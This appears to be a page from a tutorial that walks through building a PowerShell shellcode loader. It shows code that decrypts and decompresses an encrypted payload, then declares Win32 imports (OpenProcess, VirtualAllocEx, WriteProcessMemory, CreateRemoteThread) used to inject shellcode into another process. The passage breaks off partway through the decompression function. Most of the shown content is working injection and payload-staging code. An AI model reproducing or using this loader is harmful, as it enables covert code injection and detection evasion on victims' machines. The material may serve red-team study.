 Great, now all we have to do is implement the functions in the script like this:

```
# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
```

The final source looks like this:

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAccess, bool bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint                     MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr, byte[] Shellcode, uint shellSize, out UIntPtr BytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr Process, IntPtr threadAttrib, uint stackSize, IntPtr shellcodeAddr, IntPtr additionalParams,       uint creationFlags, out IntPtr lpThreadId);
}
"@
Add-Type $Win32

# Function for decompressing data
function Decompress 
{
    param 
    (
        [byte[]]$Data, [ValidateSet('deflate9', 'gzip', 'none')] [string]$CompressionAlgorithm
    )

    $deflateStream = $null
    $gzipStream = $null
    $compressedStream = $null
    $decompressedStream = $null

    try
    {
        if ($CompressionAlgorithm -eq 'none') 
        {
            return $Data
        }

        $compressedStream = [System.IO.MemoryStream]::new($Data)
        $decompressedStream = [System.IO.MemoryStream]::new()

        if ($CompressionAlgorithm -eq 'deflate9') 
        {
            $deflateStream = [System.IO.Compression.DeflateStream]::new($compressedStream, [System.IO.Compression.CompressionMode]::Decompress)
```